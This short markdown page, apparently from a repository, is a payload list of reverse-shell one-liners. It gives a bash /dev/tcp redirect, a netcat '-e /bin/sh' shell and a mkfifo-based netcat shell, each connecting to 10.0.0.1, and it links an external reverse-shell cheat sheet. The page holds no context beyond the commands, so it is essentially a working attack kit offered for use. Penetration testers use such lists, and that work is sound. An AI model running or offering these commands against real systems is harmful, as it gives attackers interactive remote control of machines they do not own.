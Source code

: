# Payloads

## Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Netcat
```bash
# if -e option is supported
nc -e /bin/sh 10.0.0.1 1234
# if -e is not supported
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

[Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
